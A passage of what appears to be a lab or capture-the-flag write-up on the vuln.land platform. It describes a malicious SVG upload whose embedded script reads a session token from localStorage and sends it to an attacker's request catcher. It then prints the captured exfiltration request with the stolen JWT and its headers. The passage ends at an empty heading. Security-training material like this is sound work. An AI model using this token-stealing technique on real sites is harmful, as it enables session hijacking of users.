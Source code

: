 ## SVG Source Code

The malicious SVG contains:

- A visible red cross icon (to appear legitimate)
- An embedded `<script>` tag with JavaScript that:
  - Retrieves the token from `localStorage.getItem('token')`
  - Sends it to the attacker's request catcher via `fetch()`

## Captured Request

```
URL: http://2b60711d-4018-4a2c-8500-897395f33af2.i.vuln.land/x?token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTc2MDU1ODE3MywiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.RlN4SNgRkOltPouSRGODPpUu_k62kSXNRzLk5fvxcPk"
METHOD: GET
IP: 10.3.0.1
Time: 2025-10-15 19:56:20
Headers:
Host: 2b60711d-4018-4a2c-8500-897395f33af2.i.vuln.land
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/26.0.1 Safari/605.1.15
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en;q=0.9
Origin: https://6607a20e-c738-4d11-a985-f42412acd781.i.vuln.land
Priority: u=3, i
Referer: https://6607a20e-c738-4d11-a985-f42412acd781.i.vuln.land/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
X-Forwarded-For: 104.28.87.88
X-Forwarded-Host: 2b60711d-4018-4a2c-8500-897395f33af2.i.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: traefik.vuln.land
X-Real-Ip: 104.28.87.88


QueryString:
b'token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTc2MDU1ODE3MywiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.RlN4SNgRkOltPouSRGODPpUu_k62kSXNRzLk5fvxcPk%22'
===================================================
```

## Why This Works
